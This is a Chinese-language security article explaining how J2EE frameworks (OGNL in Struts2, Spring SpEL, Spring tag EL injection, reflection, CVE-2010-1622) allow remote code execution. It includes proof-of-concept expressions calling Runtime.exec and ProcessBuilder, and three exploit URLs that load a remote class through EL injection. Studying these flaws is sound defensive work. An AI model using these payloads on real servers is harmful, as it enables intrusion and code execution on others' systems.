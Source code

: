 # J2EE远程代码执行那些事儿(框架层面)

0x00 背景
-------

* * *

在J2EE远程代码执行中,大部分的代码执行情况的本质是,能够从外部去直接控制Java对象(其他语言暂不讨论,其实也差不多),控制Java对象大致包括几种情况:直接new对象;调用对象的方法(包括静态方法);访问对象的属性(赋值)等 

那么一些J2EE框架在设计之中,如果某些功能允许以上操作,可能出现的远程代码执行情况。

0x01 OGNL
---------

* * *

参考：[http://drops.wooyun.org/papers/340](http://drops.wooyun.org/papers/340)

get方式，调用对象的静态方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('calc')",context,context.getRoot());
...  

```

![2014021112460957891.png](http://drops.javaweb.org/uploads/images/81720ef4cc4a01b484d8a96b1b9d29d23ddcc2ec.jpg)

set方式，new一个对象调用方法执行命令： 

```
...
OgnlContext context = new OgnlContext();
Ognl.setValue(new java.lang.ProcessBuilder((new java.lang.String[] {"calc" })).start(), context,context.getRoot());
...  

```

那么我们在使用OGNL实现某些J2EE框架功能或者机制中，如果getValue或setValue函数是允许外部参数**直接完整内容**传入的，那肯定是很危险的！！！ 

比如：webWork及Struts2框架（其实真是不想说，Struts2简直就是在拖Java安全水平的后腿。它所有OGNL远程执行代码的漏洞的形成，可以用一句话简单概括：**在使用OGNL实现框架某些功能或机制时，允许外部参数直接传入OGNL表达式或安全限制被饶过等**） 

0x02 在spring框架中也有类似OGNL的Spel表达式
-------------------------------

* * *

### 1.调用对象的静态方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('calc')");
...   

```

![2014021112491712314.png](http://drops.javaweb.org/uploads/images/374b68afe5c95ede3f91476162553646b85b8983.jpg)

### 2.new一个对象调用方法执行命令: 

```
...
org.springframework.expression.Expression exp=parser.parseExpression("new java.lang.ProcessBuilder((new java.lang.String[]{'calc'})).start()");
... 

```

![2014021112505361561.png](http://drops.javaweb.org/uploads/images/b74d8211b0d820780929428f1f8a537246ea6abe.jpg)

但spring在安全方面应该不会像struts2一样这么不负责任（不过，现在稍微好点了！），它有没有类似的安全漏洞，有兴趣的可以去找找 ^-^ 

0x03 spring 标签实现中的el表达式注入
-------------------------

* * *

例如，类似的代码场景： 

```
...
el: <spring:message text="${param.el}"></spring:message>
... 

```

之前是个信息泄露漏洞（路径及jar等信息）： 

![2014021112525255051.png](http://drops.javaweb.org/uploads/images/6282341806f68c7e754ab38979f2f110c5ccde44.jpg)

前段时间老外弄出了远程命令执行,部分exp（网上都有，有兴趣自己找试一下。能否执行代码和web容器有很大关系，最好选老外一样的Glassfish或者resin某些版本用反射技巧实现执行代码）:

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().setAttribute("exp","".getClass().forName("java.util.ArrayList").newInstance())}

```

  

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.request.getSession().getAttribute("exp").add(pageContext.getServletContext().getResource("/").toURI().create("http://127.0.0.1:8080/spring/").toURL())}

```

  

```
http://127.0.0.1:8080/spring/login.jsp?el=${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("exp").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("exp").newInstance()} 

```

原理简单描述：远程加载一个exp.class,在构造器中执行命令（利用对象初始化执行代码）.(因为其他web服务器对象方法调用被限制，所以执行恶意代码肯定会有问题) 

**这个漏洞重要的是学习它的利用技巧！**实际危害其实不大！ 

0x04 反射机制实现功能时，动态方法调用
---------------------

* * *

参考：[http://zone.wooyun.org/content/6971](http://zone.wooyun.org/content/6971)

其实，这篇文章主要给出的是**反射机制使用不当造成的方法越权访问**漏洞类型场景，而不是struts2这个漏洞本身，可能大家都**怀恋**之前一系列struts2轻松getshell的exp了！ 

简化后的伪代码: 

```
... 
Class clazz = 对象.getClass(); 
Method m = clazz.getDeclaredMethod("有实际危害的方法"); 
m.invoke(对象);   
...

```

原理简单描述：本质其实很简单，getDeclaredMethod的函数如果允许外部参数输入，就可以直接调用方法了，也就是执行代码，只是危害决定于调用的方法的实际power！ 

0x05 spring class.classLoader.URLs[0]对象属性赋值
-------------------------------------------

* * *

cve-2010-1622 这是我最喜欢的一个漏洞利用技巧：

![2014021112554878852.png](http://drops.javaweb.org/uploads/images/6e7a01bbad790fae869236f46e4e6c49c5f9fd0b.jpg)

这个利用有点绕，其实如果看得懂Java其实也很简单！（大家常说，**喜欢熬夜的coder不是好员工**，睡觉了！） 

以前看了很多篇漏洞分析文章，其中这篇不错（说得算比较清晰），推荐它： 

[http://www.iteye.com/topic/1123382](http://www.iteye.com/topic/1123382)

另外，其实我个人觉得，这个漏洞的其他利用的实际危害要超过执行命令方式，比如：拒绝服务等 

如果把你想像力再上升一个层面:在**任意场景**中只要能够控制Java对象,理论上它就能执行代码(至于是否能够被有效利用是另外一回事)。其实说得再执白点，写底层代码的程序员知不知道这些问题可能导致安全漏洞！